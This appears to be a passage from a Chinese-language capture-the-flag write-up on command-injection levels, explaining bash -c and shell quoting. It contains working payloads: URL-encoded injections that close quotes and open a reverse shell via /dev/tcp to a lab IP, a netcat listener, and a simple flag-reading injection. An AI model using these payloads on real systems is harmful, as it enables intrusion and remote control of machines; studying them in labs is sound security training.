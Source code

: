 > `bash -c`是bash shell的一个选项，它允许在命令行上指定一个字符串作为命令，而不是从文件中读取命令。这个选项通常用于在shell脚本中执行命令字符串。例如，在第1关的反弹shell中，我们使用了bash -c来执行base64解码后的反弹shell命令字符串。具体来说，bash -c后面跟着的是要执行的命令字符串，用单引号或双引号括起来。如果使用单引号，则字符串中的变量和命令替换将不会被扩展，而如果使用双引号，则会被扩展。

第一条payload进行urlencode编码。
```
%22%3Bbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.164.144%2F9999%200%3E%261%27%3B%23
```
设置监听
```shell
nc -lvvp 9999
```
请求发送后，可以看到监听成功


# 第4关
用单引号包裹了输入。与双引号相比，字符串中的变量和命令替换将不会被扩展，而如果是使用双引号，则会被扩展。如下：
![关于引号的扩展](./images/about_quotation.png)
但同样的，只要没有过滤单引号，就可以闭合
# 简单注入
```
';cat flag;'
```

## 反弹shell
payload，只需要将&进行urlencode即可。
```
';bash -c "bash -i >%26 /dev/tcp/192.168.164.144/9999 0>%261";'
```
